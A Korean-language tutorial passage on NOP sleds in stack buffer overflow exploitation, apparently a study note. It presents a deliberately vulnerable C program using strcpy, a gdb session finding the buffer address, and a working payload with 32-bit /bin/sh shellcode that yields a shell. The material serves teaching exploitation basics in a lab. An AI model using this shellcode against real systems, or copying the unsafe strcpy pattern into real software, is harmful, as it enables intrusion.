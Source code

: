 # NOP
* NOP Sled : 셸코드의 주소를 정확히 알아내기 힘들 경우 큰 메모리를 확보하여 셸코드 주소의 오차범위를 크게 만들 때 사용한다. x86 아키텍처의 NOP 명령어 바이트코드는 \X90이다.

* 예시
```C
//example1.c
// gcc -o example1 example1.c -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -m32
#include <stdio.h>
int vuln(char *src) {
  
  char buf[32] = {};
  
  strcpy(buf, src);
  return 0;
}
int main(int argc, char *argv[], char *environ[]) {
  if (argc < 2){
    exit(-1);
  }
  vuln(argv[1]);
  return 0;
}
```
10000바이트의 NOP Sled가 포함된 셸코드를 example1의 argv[1]에 넣은 후 gdb를 이용해 NOP Sled의 중간 지점의 주소를 찾아보도록 하자.
```
$ gdb -q ./example1
Reading symbols from ./example1...(no debugging symbols found)...done.
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x0804843b <+0>:	push   ebp
   0x0804843c <+1>:	mov    ebp,esp
   0x0804843e <+3>:	sub    esp,0x20
   0x08048441 <+6>:	mov    ecx,0x0
   0x08048446 <+11>:	mov    eax,0x20
   0x0804844b <+16>:	and    eax,0xfffffffc
   0x0804844e <+19>:	mov    edx,eax
   0x08048450 <+21>:	mov    eax,0x0
   0x08048455 <+26>:	mov    DWORD PTR [ebp+eax*1-0x20],ecx
   0x08048459 <+30>:	add    eax,0x4
   0x0804845c <+33>:	cmp    eax,edx
   0x0804845e <+35>:	jb     0x8048455 <vuln+26>
   0x08048460 <+37>:	push   DWORD PTR [ebp+0x8]
   0x08048463 <+40>:	lea    eax,[ebp-0x20]
   0x08048466 <+43>:	push   eax
   0x08048467 <+44>:	call   0x8048300 <strcpy@plt>
   0x0804846c <+49>:	add    esp,0x8
   0x0804846f <+52>:	mov    eax,0x0
   0x08048474 <+57>:	leave  
   0x08048475 <+58>:	ret    
End of assembler dump.
(gdb) b *0x08048467
Breakpoint 1 at 0x8048467
(gdb) r python -c 'print "A"*36+"RETN"+"\x90"*100000+"SHELLCODE"'
Starting program: ~/example1 python -c 'print "A"*36+"RETN"+"\x90"*100000+"SHELLCODE"'
Breakpoint 1, 0x08048467 in vuln ()
(gdb) x/2wx $esp
0xfffe4e54:	0xfffe4e5c	0xfffe50a9
(gdb) x/40wx 0xfffe50a9
0xfffe50a9:	0x41414141	0x41414141	0x41414141	0x41414141
0xfffe50b9:	0x41414141	0x41414141	0x41414141	0x41414141
0xfffe50c9:	0x41414141	0x4e544552	0x90909090	0x90909090
0xfffe50d9:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffe50e9:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffe50f9:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffe5109:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffe5119:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffe5129:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffe5139:	0x90909090	0x90909090	0x90909090	0x90909090
(gdb) 
```
vuln 함수에서 strcpy 함수를 호출하는 시점에 breakpoint를 설정해 복사 버퍼인 argv[1]의 주소인 0xfffe50a9를 알아내었다.
다음으로 NOP Sled 중간 지점의 주소(argv[1]+50000)를 계산해 보자.
```
(gdb) p/x 0xfffe50a9 + 50000
$3 = 0xffff13f9
(gdb) 
```
NOP Sled 중간 지점 주소는 0xffff13f9이다. 이 주소를 이용한 새로운 공격 코드는 아래와 같이 구성할 수 있다.
```
"A" * 36 + 0xffff13f9 + "\x90" * 100000 + shellcode
```
만들어진 공격 코드를 이용해 익스플로잇을 시도해 보자.
```
$ ./example1 python -c 'print "A"*36 + "\xf9\x13\xff\xff" + "\x90"*100000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"'
$ id
uid=1001(theori) gid=1001(theori) groups=1001(theori)
$ 
```
